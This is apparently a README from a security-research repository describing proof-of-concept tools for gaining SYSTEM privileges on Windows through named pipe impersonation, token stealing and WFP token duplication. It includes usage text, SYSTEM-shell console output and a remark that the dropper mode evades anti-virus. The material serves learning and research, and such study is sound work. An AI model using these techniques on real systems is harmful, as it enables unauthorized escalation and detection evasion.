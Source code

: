 # Arts Of GetSystem

This directory is for PoCs to help learning how to get SYSTEM privilege.

## Table Of Contents

- [Arts Of GetSystem](#arts-of-getsystem)
  - [Named Pipe Impersonation](#named-pipe-impersonation)
  - [Token Stealing](#token-stealing)
  - [Token Duplication with WFP](#token-duplication-with-wfp)

## Named Pipe Impersonation

Named Pipe impersonation technique is one of the most popular technique to get SYSTEM privilege.
This methods is implemented in the PoC named [NamedPipeImpersonation](./NamedPipeImpersonation):

```
PS C:\Dev> .\NamedPipeImpersonation.exe -h

NamedPipeImpersonation - PoC to get SYSTEM privileges with named pipe method.

Usage: NamedPipeImpersonation.exe [Options]

        -h, --help    : Displays this help message.
        -m, --method  : Specifies method. '0' for in-memory, '1' for dropper.
        -t, --timeout : Specifies timeout in milliseconds. Default is 3,000 ms.

[!] -m option is required.

PS C:\Dev>
```

Method option is required.
If you want to use in-memory method, set this option to `0`, but it is likely to be detected by Anti-Virus.
If you set `1`, `NamedPipeImpersonation.exe` will drop service binary in temporary directory.
This method is less likely to be detected by Anti-Virus than in-memory method.
Dropper binary source is [NamedPipeClient](./NamedPipeClient), and the compiled binary is implanted in [NamedPipeImpersonation/Library/Globals.cs](./NamedPipeImpersonation/Library/Globals.cs) as `BinaryData` property.

![](./figures/NamedPipeImpersonationDropper.png)


## Token Stealing

If you can duplicate token from SYSTEM privileged process and have sufficient privileges, you can create SYSTEM privileged process.
There are several patterns as folllows:

1. If you have `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`, you can directry assign duplicated primary token to new process by [`CreateProcessAsUser` API](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera).

2. If you have `SeImpersonatePrivilege`, you can get SYSTEM privilege as following steps:

    1. Duplicate impersonation token from a SYSTEM privileged process which has `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`.

    2. Using `SeImpersonatePrivilege`, assign impersonation token to execution thread by [`ImpersonateLoggedOnUser` API](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-impersonateloggedonuser) or [`SetThreadToken` API](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken).

    3. Using `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`, create a new token assigned process as explained above.

3. If you have `SeImpersonatePrivilege`, and `Secondary Logon` service is available, you can create a new token assigned process by [`CreateProcessWithToken` API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

These methods are implemented in the PoC named [TokenStealing](./TokenStealing):

```
PS C:\Dev> .\TokenStealing.exe -h

TokenStealing - PoC to get SYSTEM privileges with token stealing method.

Usage: TokenStealing.exe [Options]

        -h, --help      : Displays this help message.
        -f, --full      : Flag to enable all token privileges.
        -s, --secondary : Flag to use Secondary Logon Service.

PS C:\Dev>
```

![](./figures/AssignPrimaryToken.png)

![](./figures/SecondaryLogon.png)


## Token Duplication with WFP

This method is presented at DEF CON 31 (2023) by Ron Ben-Yizhak.

* [#NoFilter - Abusing Windows Filtering Platform for Privilege Escalation](https://www.deepinstinct.com/blog/nofilter-abusing-windows-filtering-platform-for-privilege-escalation)
* [Slide](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Ron%20Ben-Yizhak%20-%20NoFilter%20Abusing%20Windows%20Filtering%20Platform%20for%20privilege%20escalation.pdf)

In summary, this approach uses the Windows Filtering Platform (WFP) functionality to achieve Token Duplication.

```
PS C:\Dev> .\WfpTokenDup.exe -h

WfpTokenDup - PoC for token stealing with Windows Filtering Platform.

Usage: WfpTokenDup.exe [Options]

        -h, --help   : Displays this help message.
        -S, --system : Flag to get SYSTEM shell.
        -p, --pid    : Specifies PID to duplicate token handle in decimal format.
        -v, --value  : Specifies handle value to duplicate token handle in hex format.
```

To get SYSTEM privilege, simply set `-S` flag:

```
PS C:\Dev> .\WfpTokenDup.exe -S

[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x2FC).
[>] Trying to get WFP engine handle.
[+] Got a WFP engine handle (hanlde = 0x1AB7DCF8AF0).
[>] Installing new IPSec policy.
[+] New IPSec policy is installed (GUID: 57f77e37-2cc3-49db-b462-728702621fed)
[>] Triggering printer.
[*] RPC_STATUS is 0x00000709.
[>] Trying to find SYSTEM token.
[+] Got a SYSTEM token (handle = 0x328).
    [*] Modified ID : 0x000000000000001C
[>] Uninstalling IPSec policy.
[+] IPSec policy is uninstalled successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```

This PoC uses Secondaly Logon service, so SYSTEM shell will be spawned with other console as following figure.
Duplicated token has SeTcbPrivilege, so we can get shell in same console with S4U logon technique, but I don't implement it currently.

![](./figures/WfpTokenDup-1.png)

If you want to try duplicate token handle in another process with WFP, set PID in decimal format with `-p` option and handle value in hex format with `-v` option.
To get handle information, you can use my another tool named as [TokenDump](../TokenDump) as follows:

```
PS C:\Dev> .\TokenDump.exe -e -H

[>] Trying to enumerate token handles.

[Token Handle(s) - winlogon.exe (PID: 704)]

Handle Session Token User          Integrity Restricted AppContainer Token Type    Impersonation Level
====== ======= =================== ========= ========== ============ ============= ===================
 0x2B0       1 NT AUTHORITY\SYSTEM System    False      False        Primary       Anonymous
 0x2B4       1 NT AUTHORITY\SYSTEM System    False      False        Primary       Anonymous


--snip--

[Token Handle(s) - svchost.exe (PID: 2568)]

Handle Session Token User          Integrity Restricted AppContainer Token Type Impersonation Level
====== ======= =================== ========= ========== ============ ========== ===================
 0x240       1 dev22h2\user        High      False      False        Primary    Identification
 0x248       1 dev22h2\user        High      False      False        Primary    Identification
 0x298       1 dev22h2\user        High      False      False        Primary    Identification
 0x2B8       0 NT AUTHORITY\SYSTEM System    False      False        Primary    Anonymous

[+] Got 892 handle(s).
[*] Found 8 account(s).
    [*] NT AUTHORITY\SYSTEM
    [*] dev22h2\user
    [*] Font Driver Host\UMFD-1
    [*] Font Driver Host\UMFD-0
    [*] NT AUTHORITY\NETWORK SERVICE
    [*] Window Manager\DWM-1
    [*] NT AUTHORITY\LOCAL SERVICE
    [*] NT AUTHORITY\ANONYMOUS LOGON
[*] Done.

PS C:\Dev> .\TokenDump.exe -e -H -p 2568 -a system

[>] Trying to enumerate token handles.

[Token Handle(s) - svchost.exe (PID: 2568)]

Handle Session Token User          Integrity Restricted AppContainer Token Type Impersonation Level
====== ======= =================== ========= ========== ============ ========== ===================
 0x2B8       0 NT AUTHORITY\SYSTEM System    False      False        Primary    Anonymous

[+] Got 1 handle(s).
[*] Found 2 account(s).
    [*] dev22h2\user
    [*] NT AUTHORITY\SYSTEM
[*] Done.

PS C:\Dev>
```

Using this information, perform token duplication and spawn token assigned shell with Secondary Logon service as follows:

```
PS C:\Dev> .\WfpTokenDup.exe -p 2568 -v 0x2B8

[*] Target information:
    [*] Process Name : svchost
    [*] Process ID   : 2568
    [*] Handle Value : 0x2B8
[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x110).
[>] Trying to register the target object handle to WFP.
[+] Token registration maybe successful.
    [*] Modified ID : 0x00000000000003A5
[>] Trying to fetch the registered token.
[+] Got the registered token (handle = 0x2EC).
[>] Releasing the registered token from WFP.
[+] The registered token is released successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```

![](./figures/WfpTokenDup-2.png)